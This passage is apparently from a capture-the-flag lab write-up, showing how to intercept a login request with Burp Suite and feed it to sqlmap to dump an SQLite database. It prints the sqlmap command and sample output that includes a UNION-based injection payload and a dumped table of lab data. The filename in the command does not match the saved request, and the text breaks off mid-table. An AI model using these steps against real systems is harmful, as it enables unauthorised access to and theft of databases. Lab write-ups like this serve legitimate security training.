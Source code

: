 Use `burpsuite` to save panel request.
- Open `firefox` and set proxy `127.0.0.1:8080`
- Open `burpsuite` and turn `intercept on`
- Use `firefox` to try login to `http://<ip>:8000/<hidden>` using `sql injection` in `password` field
- In `Burpsuite`, in `proxy` tab, right click the content and `save as` `panel.request`
- Quit `burpsuite` and reverse proxy setting in `firefox`

Use `sqlmap` with the request file generated from `burpsuite` to dump database contents.
{% capture code %}{% raw %}sqlmap -r panel.results --tamper space2comment --dump-all --dbms sqlite --batch -v 0{% endraw %}{% endcapture %} {% include code.html code=code %}

An output similar to below will be obtained.
{% capture code %}{% raw %}[*] starting at 15:09:08

GET parameter 'search' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 41 HTTP(s) requests:

---
Parameter: search (GET)
    Type: UNION query
    Title: Generic UNION query (NULL) - 2 columns
    Payload: search=test' UNION ALL SELECT 'qjqvq'||'OydnlsPDdtZoWxuordTuVxiabcCLWDEsqWDTuMym'||'qvxqq',NULL-- qtKp
---
back-end DBMS: SQLite

Database: SQLite_masterdb
Table: sequels
[22 entries]
+-------------+-----+----------------------------+
| kid         | age | title                      |
+-------------+-----+----------------------------+
| James       | 8   | shoes                      |
| John        | 4   | skateboard                 |
| Robert      | 17  | iphone                     |
| Michael     | 5   | playstation                |
| William     | 6   | xbox                       |
| David       | 6   | candy                      |
| Richard     | 9   | books                      |
| Joseph      | 7   | socks                      |
| Thomas      | 10  | 10 McDonalds meals         |
| Charles     | 3   | toy car                    |
| Christopher | 8   | air hockey table           |
| Daniel      | 12  | lego star wars             |
| Matthew     | 15  | bike                       |
| Anthony     | 3   | table tennis               |
| Donald      | 4   | fazer chocolate            |
| Mark        | 17  | wii                        |
| Paul        | 9   | <wish>                     |
| James       | 8   | finnish-english dictionary |